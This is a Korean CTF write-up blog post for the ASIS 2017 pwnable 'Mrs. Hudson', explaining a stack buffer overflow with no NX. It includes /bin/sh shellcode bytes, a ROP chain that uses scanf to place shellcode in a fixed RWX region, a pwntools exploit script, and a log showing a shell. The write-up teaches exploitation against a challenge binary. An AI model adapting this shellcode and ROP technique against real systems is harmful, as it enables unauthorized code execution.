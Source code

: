 ```yaml
---
layout: post
title: '[CTF] ASIS2017 Mrs.Hudson'
date: '2017-09-30 11:00:00 +0900'
categories: ctf
tags: [bof]
---
```


- 간단한 BoF
- No NX
- Inject한 shellcode 로 jump 시킬 주소를 어떻게 고정시킬 수 있을까 ?


## A. Write-up

[CTFtime.org / ASIS CTF Finals 2017 / Mrs. Hudson](https://ctftime.org/task/4589)


## B. Basic info

#### 1. Code

코드는 간단한 BoF.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+10h] [rbp-70h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Let's go back to 2000.");
  return __isoc99_scanf("%s", &v4);
}
```


#### 2. Checksec

Threat mitigation 적용이 되어 있지 않으므로 shellcode injeciton 가능.

```bash
gef)  checksec
[+] checksec for '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

PLT 함수가 너무 적다. 특히 `read()`, `write()` 도 없다.

```
Address Ordinal Name    Library
0000000000601068        puts    
0000000000601070        __libc_start_main   
0000000000601078        setvbuf 
0000000000601080        __isoc99_scanf  
0000000000601088        __gmon_start__  
```



#### 3. BoF

BoF 는 120 byte 에서 터짐.

#### 4. shellcode

[Minimal x86-64 shellcode for /bin/sh? · System Overlord](https://systemoverlord.com/2014/06/05/minimal-x86-64-shellcode-for-binsh/)

```
\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05
```


## C. Problem

간단한 BoF 이나 어려운 점은 injected shellcode 로 jump 시킬 주소를 어떻게 fix 할 수 있는냐 이다.

`0x00007ffddeb19498`
```
0x00007ffddeb19498│+0x00: 0x4242424241414141     ← $rsp
0x00007ffddeb194a0│+0x08: 0x9090909090909090
0x00007ffddeb194a8│+0x10: 0x9090909090909090

     0x400680 <main+102>       call   0x400520 <__isoc99_scanf@plt>
     0x400685 <main+107>       leave  
 →   0x400686 <main+108>       ret  
```


`0x00007ffc94ec0338`
```
0x00007ffc94ec0338│+0x00: 0x4242424241414141     ← $rsp
0x00007ffc94ec0340│+0x08: 0x9090909090909090
0x00007ffc94ec0348│+0x10: 0x9090909090909090

     0x400680 <main+102>       call   0x400520 <__isoc99_scanf@plt>
     0x400685 <main+107>       leave  
 →   0x400686 <main+108>       ret  
 ```


ALSR 이 걸린 상태에서 inject 한 shellcode 실행 시에 위치 변화 없이 shellcode 에 떨어뜨리기 위한 jump 주소는 어떻게 ???

1. Nop slide : `NOP` 잘 깔아두고, jump ?
2. shellcode 를 정해진 위치에 올려놓을 수는 없을까 ???


## D. Solve 

### 1. Nop slide : `NOP` 잘 깔아두고, jump

ASLR로 stack 위치가 엄청하게 변하는데 nop slide 로 커버할 수 있을까 ??? 어려울 듯....

### 2. shellcode 를 ROP 로 정해진 위치에 올려놓기 

- `scanf("%s", @RWX_AREA)`
- jump and execute `@RWX_AREA`

PLT에 `scanf()` 있으므로 RWX 영역에 ROP로 shellcode 올려놓은 다음에 fixed 위치인 RWX 영역으로 jump 하기.

### `RWX_AREA` : GOT

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-x /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
0x0000000000601000 0x0000000000602000 0x0000000000001000 rwx /media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson
```

pwndbg 에서 PLT/GOT 주소 참조.

```
pwndbg> plt
0x400500: puts@plt
0x400510: setvbuf@plt
0x400520: __isoc99_scanf@plt
pwndbg> got
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

GOT protection: No RELRO | GOT functions: 3

[000000601018] puts@GLIBC_2.2.5 -> 0x400506 (puts@plt+6) ◂— push   0 /* 'h' */
[000000601020] setvbuf@GLIBC_2.2.5 -> 0x400516 (setvbuf@plt+6) ◂— push   1
[000000601028] __isoc99_scanf@GLIBC_2.7 -> 0x400526 (__isoc99_scanf@plt+6) ◂— push   2
```

`0x0000000000601000`  부터 GOT 영역이지만 현재 함수에서 사용하는 GOT table 뒤에 write 해야할 듯.

#### Exploit

```python
""" Variable
"""
pop_rdi      = 0x004006f3         # pop rdi; ret
pop_rsi_r15  = 0x00000000004006f1 # pop rsi; pop r15; ret
scanf_plt    = 0x00400526         # scanf@PLT
scanf_string = 0x0040072b         # %s
bin_x        = 0x0000000000601090 # rwx segment

""" Here we go.
"""
log.info("[*] ASIS CTF 2017: mrs_hudson exploit.")

#Let's go back to 2000.
print conn.recvline()

""" ROP
"""
shellcode = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05"

# Scanf("%s", @RWX_AREA)
#       rdi   rsi
rop =  p64(pop_rdi) + p64(scanf_string)
rop += p64(pop_rsi_r15) + p64(bin_x) + p64(0xdeadbeef)
rop += p64(scanf_plt)
rop += p64(bin_x)

conn.sendline("A"*120 + rop)
conn.sendline(shellcode)
```

## Full exploit

[awesome-ctf-wargame/solv.py at master · 2O2L2H/awesome-ctf-wargame](https://github.com/2O2L2H/awesome-ctf-wargame/blob/master/ctf/2017/asis/pwnable/mrs_hudson/solv.py)

#### Execution

```shell
$ python solv.py
[+] Starting local process './mrs._hudson': pid 6876
[*] running in new terminal: /usr/bin/gdb -q  "/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson" 6876
[+] Waiting for debugger: Done
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/ctf/2017/asis/pwnable/mrs_hudson/mrs._hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] [*] ASIS CTF 2017: mrs_hudson exploit.
[DEBUG] Received 0x17 bytes:
    "Lets go back to 2000.\n"
Let's go back to 2000.

[DEBUG] Sent 0xb1 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  f3 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000080  2b 07 40 00  00 00 00 00  f1 06 40 00  00 00 00 00  │+·@·│····│··@·│····│
    00000090  90 10 60 00  00 00 00 00  ef be ad de  00 00 00 00  │··`·│····│····│····│
    000000a0  26 05 40 00  00 00 00 00  90 10 60 00  00 00 00 00  │&·@·│····│··`·│····│
    000000b0  0a                                                  │·│
    000000b1
[DEBUG] Sent 0x1a bytes:
    00000000  48 bb d1 9d  96 91 d0 8c  97 ff 48 f7  db 53 31 c0  │H···│····│··H·│·S1·│
    00000010  99 31 f6 54  5f b0 3b 0f  05 0a                     │·1·T│_·;·│··│
    0000001a
[*] Switching to interactive mode
$ id
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Received 0x84 bytes:
    'uid=1000(tkhwang) gid=1000(tkhwang) groups=1000(tkhwang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),131(sambashare)\n'
uid=1000(tkhwang) gid=1000(tkhwang) groups=1000(tkhwang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),121(lpadmin),131(sambashare)
```









